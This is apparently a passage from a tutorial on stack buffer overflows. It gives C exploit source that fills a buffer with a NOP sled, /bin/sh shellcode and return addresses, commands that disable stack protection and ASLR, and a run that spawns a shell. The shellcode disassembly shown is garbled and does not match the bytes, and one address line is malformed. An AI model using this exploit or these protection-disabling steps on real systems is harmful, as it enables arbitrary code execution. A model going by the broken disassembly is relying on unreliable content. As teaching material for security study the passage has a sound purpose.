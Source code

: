 ```c

int main(int argc, char **argv) {
    unsigned int address, i, offset = 0;
    char buffer[768];
    char *n[] = { PROGRAM, buffer, NULL };
    /* offset from base address */
    if (argv[1]) {
        offset = strtol(argv[1], NULL, 10);
    }
    /* address to jump to, stack pointer + offset */
    address = get_esp() + offset;
    fprintf(stderr, "using address %#010x\n", address);
    /* set all bytes in buffer to zero, no leftovers */
    memset(buffer, 0, sizeof(buffer));
    /* fill buffer with addresses, four byte at a time */
    for (i = 0; i < sizeof(buffer); i += 4) {
        *(unsigned int *)(buffer + i) = address;
    }
    /* nop-sled to fill half buffer with nop, 0x90 is hex for na */
    memset(buffer, 0x90, sizeof(buffer)/2);
    /* place shellcode after nop-sled, rest is filled with addresses */
    memcpy(buffer + sizeof(buffer)/2, shellcode, strlen(shellcode));
    /* execute program with buffer as argument */
    execve(n[0], n, NULL);
    perror("execve");
    exit(1);
}
```

Run exploit with `-fno-stack-protector` to disable the stack protection (sometimes enabled by default) and `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space` to disable address space layout randomization (ASLR).

```bash
$ CFLAGS="-m32 -fno-stack-protector -z execstack -mpreferred-stack-boundary=2"
$ cc $CFLAGS -o program program.c
$ cc $CFLAGS -o exploit exploit.c
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
0
$ ./exploit 1500
using address 0x0xbffffa34
buffer@0xbffff970: ...
bash$
```

For the curious, disassemble shellcode.

```bash
$ python -c 'print("\xeb\x15\x5b\x31\xc0\x89\x5b\x08\x88\x43\x07\x8d\x4b\x08\x89\x43" + "\x0c\x89\xc2\xb0\x0b\xcd\x80\xe8\xe6\xff\xff\xff/bin/sh")' | ndisasm -u - 
```

```bash
00000000  C3                ret
00000001  AB                stosd
00000002  155B31C380        adc eax,0x80c3315b
00000007  C2895B            ret 0x5b89
0000000A  08C2              or dl,al
0000000C  884307            mov [ebx+0x7],al
0000000F  C28D4B            ret 0x4b8d
00000012  08C2              or dl,al
00000014  89430C            mov [ebx+0xc],eax
00000017  C289C3            ret 0xc389
0000001A  82                db 0x82
0000001B  C2B00B            ret 0xbb0
0000001E  C3                ret
```